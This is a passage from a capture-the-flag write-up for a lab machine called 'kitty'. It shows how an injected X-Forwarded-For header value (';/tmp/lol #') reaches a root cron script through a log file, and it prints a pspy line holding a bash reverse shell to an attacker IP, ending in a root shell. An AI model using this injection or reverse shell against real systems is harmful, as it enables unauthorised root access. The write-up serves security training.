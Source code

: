 Starting our listener.

```console
$ nc -lvnp 443
listening on [any] 443 ...
```

Sending our command injection payload: `;/tmp/lol #`

- `;` to escape the echo command.
- `/tmp/lol`: command we want to inject.
- `#`: to comment out the rest of the command.

```console
kitty@kitty:/var/www/development$ curl -s 'http://127.0.0.1:8080/index.php' -X POST -d 'username=sleep&password=password' -H 'X-Forwarded-For: ;/tmp/lol #'

SQL Injection detected. This incident will be logged!
```

With this payload, `;/tmp/lol #` will be written to `/var/www/development/logged` and the command inside `/opt/log_checker.sh` will be `/usr/bin/sh -c "echo ;/tmp/lol # >> /root/logged"`.

We see the execution of our payload with `pspy`.

```
2024/02/03 18:07:01 CMD: UID=0     PID=3590   | /usr/sbin/CRON -f 
2024/02/03 18:07:01 CMD: UID=0     PID=3591   | /bin/sh -c /usr/bin/bash /opt/log_checker.sh 
2024/02/03 18:07:01 CMD: UID=0     PID=3592   | /usr/bin/bash /opt/log_checker.sh 
2024/02/03 18:07:01 CMD: UID=0     PID=3593   | /usr/bin/sh -c echo ;/tmp/lol # >> /root/logged 
2024/02/03 18:07:01 CMD: UID=0     PID=3594   | /bin/bash /tmp/lol 
2024/02/03 18:07:01 CMD: UID=0     PID=3595   | bash -c bash -i >& /dev/tcp/10.11.63.57/443 0>&1 
```

On our listener, we receive a shell as root and can read the root flag.

```console
root@kitty:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kitty:~# wc -c root.txt
38 root.txt
```
